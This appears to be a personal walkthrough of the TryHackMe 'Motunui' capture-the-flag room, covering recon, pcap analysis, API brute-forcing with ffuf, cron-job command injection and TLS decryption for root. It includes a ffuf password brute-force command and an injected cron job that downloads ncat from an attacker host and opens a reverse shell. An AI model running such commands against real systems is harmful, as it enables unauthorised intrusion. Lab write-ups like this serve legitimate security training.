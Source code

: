 # Motunui

https://tryhackme.com/room/motunui

Quite a tricky room, but not toooo difficult?

Recon reveals this:

```
22/tcp   open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3000/tcp open  ppp?        syn-ack
5000/tcp open  ssl/http    syn-ack Node.js (Express middleware)
```

First step, the samba shares. Under there there were multiple pcap files, but only one (`ticket_6746`) that was more than 0 bytes.

Pulling this back and opening with wireshark revealed a mess of tls traffic, and one set of http traffic where a PNG file was downloaded. Extracting this revealed a domain: d3v3lopm3nt.motunui.thm

Using this with the port 80 port revealed a message that 'this site is for developers only' etc. Gobuster revealed /docs, which led to /docs/ROUTES.md, which revealed 'api.motunui.thm:3000/v2/' and three endpoints: POST /login, GET /jobs and POST /jobs

Login required a username/password apparently. Going to `/v1` rather than v2 revealed a username: maui. Using ffuf, I then brute forced the /v2/login endpoint:

`ffuf -w rockyou.txt -u http://api.motunui.thm:3000/v2/login -X POST -H "Content-Type: application/json" -d '{"username": "maui", "password": "FUZZ"}' -ac`

This quickly revealed the password for maui, and allowed me to get the hash.

Using the hash, I was able to call the jobs api which returned:

```json
{
  "job":"* * * * * echo \"They have stolen the heart from inside you, but that does not define you\" > /tmp/quote"
}
```

Calling the job api with POST, passing the hash and a new `job` parameter, I was able to use this to download a static ncat binary and use it to establish a reverse shell:

```json
{
  "job":"* * * * * wget http://attack-box/ncat && chmod +x ncat && ./ncat -e /bin/bash attack-box"
}
```

On the box were two user directories, moana and network, with the latter being what the samba share was bound to. Under moana was a note saying she reused passwords. Searching around I found two files owned by moana: network.pkt and ssl.txt, only the former was readable by www-root.

A .pkt file is a format readable by Cisco Packet Tracer, a network simulation tool. Kind of annoying: this is a niche tool, and installing any mess from that garbage fire of a company is a pain - accounts need to be created, weird pages used to download the tool, annoying 'trial periods' to get past (extra annoying giving I have no fucking interest in keeping this tool longer than the need for this challenge) but I was able to get the thing to read the file. After opening, going to `switch0`, then the CLI, then `en` and `run` got a log of moana's commands, revealing a password.

With this I could SSH in as moana and get the user flag. THe other file from before, ssl.txt was a ssl log file which, when used with wireshark (set it under preferences > protocols > TLS > log file) I was able to get the contents of the other streams in that original pcap, getting the root password and the root flag :)
